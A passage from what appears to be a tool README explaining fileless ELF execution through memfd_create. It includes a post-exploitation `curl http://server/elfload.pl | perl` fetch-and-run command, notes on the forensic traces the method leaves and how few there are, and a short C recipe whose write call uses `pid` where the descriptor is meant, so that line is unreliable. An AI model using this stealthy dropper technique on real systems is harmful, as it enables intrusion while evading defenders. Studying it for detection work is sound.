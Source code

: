 Without creds but with access to the target (i.e. after exploiting on), in most
cases we can probably use the devopsy `curl http://server/elfload.pl | perl`
trick (or intercept someone doing the trick for us).  As long as the script
makes it to Perl's stdin and Perl gets an EOF when the script's all read, it
doesn't particularly matter how it gets there.

Artifacts
---------
Once running, the only real difference between a program running from an
anonymous file and a program running from a normal file is the
`/proc/<PID>/exe` symlink.

If something's monitoring system calls (e.g. someone's running `strace -f` on
sshd), the `memfd_create(2)` calls will stick out, as will passing paths in
`/proc/<PID>/fd` to `execve(2)`.

Other than that, there's very little evidence anything is wrong.

Demo
----
To see this in action, have a look at this asciicast.
[![asciicast](https://asciinema.org/a/173715.png)](https://asciinema.org/a/173715)

TL;DR
-----
In C (translate to your non-disk-touching language of choice):
1. `fd = memfd_create("", MFD_CLOEXEC);`
2. `write(pid, elfbuffer, elfbuffer_len);`
3. `asprintf(p, "/proc/self/fd/%i", fd); execl(p, "kittens", "arg1", "arg2", NULL);`

----
_Updated 20170402 to link to
https://0x00sec.org/t/super-stealthy-droppers/3715, from where I got
`execve("/proc/<PID>/fd/<FD>...`_
